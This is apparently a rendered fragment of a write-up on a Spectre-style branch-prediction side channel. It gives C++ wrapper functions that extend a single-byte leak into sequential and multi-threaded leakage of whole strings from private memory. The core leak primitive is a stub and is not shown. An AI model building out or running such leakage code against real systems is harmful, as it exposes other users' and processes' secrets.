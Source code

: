 ```cpp
static char LeakByte(size_t offset) {
    // Leaks private_data[offset]
    // Returns single character
}
```

### Full String Leakage Extension

#### Method 1: Sequential Character Leakage

```cpp
std::string LeakFullString(size_t max_length = 256) {
    std::string leaked_string;
    leaked_string.reserve(max_length);
    
    for (size_t offset = 0; offset < max_length; ++offset) {
        char leaked_char = LeakByteVariableDepth(offset, g_branch_prediction_depth);
        
        // Stop at null terminator
        if (leaked_char == '\0') {
            break;
        }
        
        leaked_string.push_back(leaked_char);
        
        // Progress indicator
        std::cout << "Leaked: " << leaked_string << std::endl;
    }
    
    return leaked_string;
}
```

#### Method 2: Parallel Character Leakage

```cpp
std::string LeakStringParallel(size_t string_length) {
    std::vector<char> leaked_chars(string_length);
    std::vector<std::thread> threads;
    
    // Launch thread per character position
    for (size_t i = 0; i < string_length; ++i) {
        threads.emplace_back([&leaked_chars, i]() {
            leaked_chars[i] = LeakByteVariableDepth(i, g_branch_prediction_depth);
        });
    }
    
    // Wait for all threads
    for (auto &thread : threads) {
        thread.join();
    }
    
    return std::string(leaked_chars.begin(), leaked_chars.end());
}
```

